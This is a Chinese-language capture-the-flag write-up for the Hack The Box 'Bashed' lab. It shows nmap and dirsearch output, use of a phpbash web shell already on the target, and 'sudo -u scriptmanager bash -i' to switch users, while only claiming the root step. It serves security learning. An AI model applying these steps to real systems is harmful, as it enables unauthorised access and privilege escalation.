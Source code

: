 # Bashed

## 信息收集

nmap 收集一下信息：

```
sudo nmap -sV 10.10.10.68
Starting Nmap 7.91 ( https://nmap.org ) at 2022-08-24 04:12 CDT
Nmap scan report for 10.10.10.68
Host is up (0.43s latency).
Not shown: 998 closed ports
PORT   STATE    SERVICE VERSION
53/tcp filtered domain
80/tcp open     http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.33 seconds
```

看起来也是一个突破口在网页的目标。

![image](../../%E5%9B%BE%E5%BA%8A/Firefox_Screenshot_2022-08-24T09-18-44.264Z.png)

看着东西很多，实际上页面能访问的只有index.html、single.html。

先dirsearch扫一下目录，结果如下：

```
Target: http://10.10.10.68/

[04:21:37] Starting:                                                   
[04:21:42] 301 -  308B  - /php  ->  http://10.10.10.68/php/
[04:21:43] 301 -  307B  - /js  ->  http://10.10.10.68/js/
[04:21:52] 403 -  297B  - /.ht_wsr.txt
[04:21:52] 403 -  300B  - /.htaccess.bak1
[04:21:52] 403 -  300B  - /.htaccess.orig
[04:21:52] 403 -  302B  - /.htaccess.sample
[04:21:52] 403 -  300B  - /.htaccess.save
[04:21:52] 403 -  300B  - /.htaccess_orig
[04:21:52] 403 -  301B  - /.htaccess_extra
[04:21:52] 403 -  298B  - /.htaccess_sc
[04:21:52] 403 -  298B  - /.htaccessBAK
[04:21:52] 403 -  299B  - /.htaccessOLD2
[04:21:52] 403 -  290B  - /.htm
[04:21:52] 403 -  298B  - /.htaccessOLD
[04:21:52] 403 -  291B  - /.html
[04:21:52] 403 -  296B  - /.htpasswds
[04:21:52] 403 -  300B  - /.htpasswd_test
[04:21:52] 403 -  297B  - /.httr-oauth
[04:21:56] 403 -  290B  - /.php
[04:21:56] 403 -  291B  - /.php3
[04:22:08] 200 -    8KB - /about.html
[04:22:44] 200 -    0B  - /config.php
[04:22:46] 200 -    8KB - /contact.html
[04:22:48] 301 -  308B  - /css  ->  http://10.10.10.68/css/
[04:22:51] 301 -  308B  - /dev  ->  http://10.10.10.68/dev/
[04:22:51] 200 -    1KB - /dev/
[04:22:59] 301 -  310B  - /fonts  ->  http://10.10.10.68/fonts/
[04:23:04] 301 -  311B  - /images  ->  http://10.10.10.68/images/
[04:23:04] 200 -    2KB - /images/
[04:23:08] 200 -    3KB - /js/
[04:23:25] 200 -  939B  - /php/
[04:23:39] 403 -  299B  - /server-status
[04:23:39] 403 -  300B  - /server-status/
[04:23:54] 301 -  312B  - /uploads  ->  http://10.10.10.68/uploads/
[04:23:54] 200 -   14B  - /uploads/
```

不过返回来看页面上这篇文章，有一些关键信息：

![image](../../%E5%9B%BE%E5%BA%8A/Firefox_Screenshot_2022-08-24T09-29-53.097Z.png)

再结合靶机的名字，不难猜测这里就是突破口。根据地址去github找[源码](https://github.com/Arrexel/phpbash)，大概意思就是这个项目可以传一个可视化的shell上去。

回到目录扫描记录，挨个访问状态200的目录，一般来说可以先挑存储体积比较大的或者目录名字比较敏感的看。

这里访问到/dev/的时候，发现路径下已经部署了phpbash.php，那肯定毫不客气先进shell看看。

![image](../../../../../../Downloads/Firefox_Screenshot_2022-08-24T09-50-14.874Z.png)

这个shell是个比较低的权限。

```
www-data@bashed:/var/www/html/dev# whoami
www-data
```

这个shell可以直接拿到user.txt。

然后做一下提权，就能拿到root.txt。

```
www-data@bashed
:/home/arrexel# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed
:/home/arrexel# sudo -u scriptmanager bash -i

bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/home/arrexel$ exit
```
